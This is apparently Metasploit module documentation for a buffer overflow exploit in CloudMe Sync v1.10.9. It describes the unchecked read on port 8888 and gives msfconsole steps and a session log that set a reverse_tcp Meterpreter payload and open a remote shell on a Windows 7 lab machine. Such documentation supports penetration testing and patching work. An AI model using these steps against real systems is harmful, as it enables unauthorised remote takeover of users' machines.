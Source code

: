 ## Description

This module exploits a buffer overflow vulnerability found in [CloudMe Sync v1.10.9](https://www.cloudme.com/downloads/CloudMe_1109.exe).

## Vulnerable Application

`CloudMe.00564B00` sets up a buffer that is intended to take up 1048 bytes on the stack to read in data from port 8888. The CloudMe function then passes a pointer to the stack buffer and a max size to `Qt5Core._ZN9QIODevice4readEPcx`.

![alt text](https://user-images.githubusercontent.com/40177151/44545528-f21f0280-a6da-11e8-898b-edd0a17e0d10.png "CloudMe.00564B00")

The call to `Qt5Core._ZN9QIODevice4readEPcx` shows the pointer and the max size arguments passed in by `CloudMe.00564B00`.
![alt text](https://user-images.githubusercontent.com/40177151/44545559-09f68680-a6db-11e8-8a0b-36466dafd21e.png "Qt Read Args")

Because neither functions check the max size against the actual amount of space allocated on the stack, the program writes past the buffer's allocated space and allows for arbitrary code execution.

## Verification Steps
  1. Install CloudMe for Desktop version `v1.10.9`
  2. Start the application (you don't need to create an account)
  3. Start `msfconsole`
  4. Do `use exploit/windows/misc/cloudme_sync`
  5. Do `set RHOST ip`
  6. Do `set LHOST ip`
  7. Do `exploit`
  8. Verify the Meterpreter session is opened

## Scenarios

### CloudMe Sync client application on Windows 7 SP1 x86

```
msf > use exploit/windows/misc/cloudme_sync 
msf exploit(windows/misc/cloudme_sync) > set RHOST 172.16.40.148
RHOST => 172.16.40.148
msf exploit(windows/misc/cloudme_sync) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/misc/cloudme_sync) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/misc/cloudme_sync) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (179779 bytes) to 172.16.40.148
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.148:57185) at 2018-02-19 12:35:21 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
